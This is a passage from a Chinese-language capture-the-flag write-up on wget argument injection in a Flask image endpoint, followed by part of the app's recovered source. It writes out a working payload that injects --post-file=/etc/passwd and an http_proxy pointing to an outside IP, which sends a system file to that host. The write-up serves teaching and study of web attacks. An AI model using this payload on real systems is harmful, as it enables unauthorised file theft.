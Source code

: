 

## wget参数注入读源码

虽然看似不行，还是有方法的，wget是可以开启代理的。如果开启代理，那么

具体来说有三种开启代理的方式：
1. 环境变量中设置http_proxy
1. 在~/.wgetrc里设置http_proxy
1. 使用-e参数执行wgetrc格式的命令
这里我们可以使用-e http_proxy=http://xxx 来将其指向我们的服务器上。

更多参数的详细信息可以参考

[Wgetrc Commands (GNU Wget 1.21.1-dirty Manual)](https://www.gnu.org/software/wget/manual/html_node/Wgetrc-Commands.html)

除此之外，还可以用—post-file来传输文件传输文件。因此，任意文件读的payload就构建好了。如下

192.168.37.140/images?image=index.html&amp;argv=—post-file=/etc/passwd&amp;argv=-e http_proxy=http://1.116.123.136:1234

[![](https://p4.ssl.qhimg.com/t0170abe3a21acc1baf.png)](https://p4.ssl.qhimg.com/t0170abe3a21acc1baf.png)

接下来读源代码。

/app/app.py

```
from flask import Flask, request, session, render_template, url_for,redirect
import pickle
import io
import sys
import base64
import random
import subprocess
from ctypes import cdll
from config import SECRET_KEY, notadmin,user

cdll.LoadLibrary("./readflag.so")

app = Flask(__name__)
app.config.update(dict(
    SECRET_KEY=SECRET_KEY,
))

class RestrictedUnpickler(pickle.Unpickler):
    def find_class(self, module, name):
        if module in ['config'] and "__" not in name:
            return getattr(sys.modules[module], name)
        raise pickle.UnpicklingError("global '%s.%s' is forbidden" % (module, name))


def restricted_loads(s):
    """Helper function analogous to pickle.loads()."""
    return RestrictedUnpickler(io.BytesIO(s)).load()


@app.route('/')
@app.route('/index')
def index():
    if session.get('username', None):
        return redirect(url_for('home'))
    else:
        return render_template('index.html')

@app.route('/login', methods=["POST"])
```